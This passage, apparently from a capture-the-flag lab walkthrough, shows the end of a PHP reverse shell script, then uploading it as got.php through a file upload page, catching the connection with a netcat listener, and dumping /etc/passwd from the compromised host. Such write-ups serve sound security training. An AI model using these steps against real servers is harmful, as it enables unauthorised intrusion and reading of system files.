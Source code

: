 ```
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

?>
```

1.  Once again I save the file in my case **got.php**
2.  Start my netcat listener `nc -nvlp 4444`
    ![a96cfb780a825d80fb28a7f67fd371c9.png](:/ed527a7a9d594eca8aeb7bb8c05defc4)
3.  Uploaded the file thru the file upload page
4.  Go to IPofVM/uploaded_files/got.php

**Success!!! We have a shell!!**
![920685a9288a6d2417958d920ba1dca0.png](:/30b0c34ccbbf43db9d65b043836991b7)

* * *

## In our Shell

I cat the /etc/passwd

```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
technawi:x:1000:1000:technawi,,,:/home/technawi:/bin/bash
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
```
